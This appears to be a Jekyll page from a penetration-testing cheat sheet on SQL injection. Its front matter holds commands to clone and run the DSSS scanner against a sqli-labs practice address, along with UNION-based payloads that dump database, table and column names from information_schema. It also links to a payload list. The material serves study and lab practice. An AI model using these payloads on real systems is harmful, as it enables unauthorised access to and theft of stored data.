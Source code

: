 ```yaml
---
layout: topics
page-title: SQLi
clone-dsss: git clone https://github.com/stamparm/DSSS.git && cd DSSS/
run-dsss: python3 dsss.py -u "10.10.200.81/sqli-labs/Less-1/index.php?id="
print-table-name:  UNION SELECT table_name, column_name, NULL, NULL, NULL FROM information_schema.columns -- //
print-db-name:  UNION SELECT database(), NULL, NULL, NULL, NULL FROM information_schema.columns -- //
all-table-names: union select 1,group_concat(table_name),3,4,5 from information_schema.tables where table_schema = database()
payload-examples: https://github.com/payloadbox/sql-injection-payload-list
---
```


{% include copy-code-blocks.html text='Clone DSSS: ' language='bash' code=page.clone-dsss %}
{% include copy-code-blocks.html text='Run DSSS against a url: ' language='bash' code=page.run-dsss %}
{% include copy-code-blocks.html text='With the right amount of columns -> will print the table name in the first row, column_names in the second row.: ' language='sql' code=page.print-table-name %}
{% include copy-code-blocks.html text='Will print the database name: ' language='sql' code=page.print-db-name %}
{% include copy-code-blocks.html text='Get all table names from a single param: ' language='sql' code=page.all-table-names %}
{% include copy-code-blocks.html text='Payload examples: ' language='bash' code=page.payload-examples %}
Some characters might be filtered out!
